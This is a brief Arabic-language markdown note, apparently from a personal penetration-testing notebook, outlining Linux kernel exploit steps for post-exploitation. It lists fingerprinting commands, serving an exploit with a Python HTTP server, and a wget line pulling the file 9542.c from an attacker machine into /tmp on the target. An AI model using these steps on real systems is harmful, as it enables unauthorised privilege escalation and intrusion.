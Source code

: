 قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits



## 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

## 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

## 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


# 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

## 1. ## بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

## 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions

```
wget http://192.168.230.251:8000/9542.c
```

## 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
cd tmp
```